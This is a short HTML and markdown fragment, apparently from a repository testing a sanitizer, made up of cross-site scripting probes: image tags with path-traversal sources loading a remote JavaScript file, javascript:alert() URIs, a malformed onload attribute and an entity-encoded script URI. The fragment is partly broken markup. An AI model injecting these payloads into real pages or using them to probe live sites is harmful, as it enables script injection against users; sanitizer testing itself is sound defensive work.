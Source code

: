 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="../../../../\javascript:alert(2);" onload!#$%%&()*~+-_.,:;?@[/|\]^`=javascript:alert(1)>XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id=`!#$%%&()*~+-_.,:;?@[/|\]^`>bbbb</div>
<span value="`${1+1}`">aaa</span>

](()
